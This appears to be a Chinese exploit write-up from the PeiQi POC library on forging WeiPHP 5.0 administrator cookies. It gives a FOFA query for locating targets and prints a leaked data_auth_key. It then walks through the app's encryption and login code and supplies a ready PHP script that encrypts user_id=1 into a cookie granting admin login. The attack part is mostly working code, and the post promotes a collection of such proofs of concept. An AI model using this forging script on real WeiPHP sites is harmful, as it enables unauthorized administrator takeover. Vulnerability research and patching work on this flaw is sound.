 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aklOSIWUJ2Bzmqwjj845TA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**Weiphp5.0 存在管理员用户 Cookie 伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的 Cookie**

**二:  漏洞影响🐇**

**Weiphp <= 5.0**

**三:  漏洞复现🐋**

```
FOFA: app="WeiPHP"
```

**首先需要得到数据库配置文件中的 **data_auth_key** 密钥**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7BOfhicicJoxHr1usVqItYugCeSoMkmdS02ZGR4ibZHyeiaicgLZEXVGYb7tphKqSTIeZ5QZict9hibTYaw/640?wx_fmt=png)

**得到这个配置文件可参照上一篇 **Weiphp5.0 前台文件任意读取****

```
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```

**全局查找下使用了这个密钥的地方**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7BOfhicicJoxHr1usVqItYugKibxB8mXxfKIDjbmQ0rGiaHCImUvmGibibPDDdm7nyztjr36wB4JAIJkNQ/640?wx_fmt=png)

**找到了跟据这个密钥的加密方法和解密方法**

****加密方法 think_encrypt****

```
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```

**解密方法 think_decrypt**

```
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```

**全局查看下使用了解密方法的地方**

**在文件 **application\common.php** 中含有使用解密方法的代码，用于做身份验证**

```
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```

**根据这里得到的代码，可以知道当 **user_Id=1** 时, 会解密密钥后判断是否正确，如果正确则可以登录系统**

**我们在本地使用加密代码加密 **user_id=1** 得到的 cookie 则可以登录系统**

```
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7BOfhicicJoxHr1usVqItYugFwwO0qwD86gZibiaMftoVGqa3RGg3hBic4uicBMiaibdSf1jIYmibEQic6xUeQ/640?wx_fmt=png)

**添加 **cookie: user_id=xxxxxxxx** 即可成功登录**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7BOfhicicJoxHr1usVqItYugmDaphJAdPU6RkJL5tws0fXfgwdKETOLNvfbTribZkU3VqkFTURngH4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7BOfhicicJoxHr1usVqItYugPe4ar27laRN5jAaA4UgPqQHmvENydk4f9S7GqkNy8SILJEEZoJoESA/640?wx_fmt=png)

**获取密钥的方法参照公众号上一篇 Weiphp5.0 审计文章**  

 ****四:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**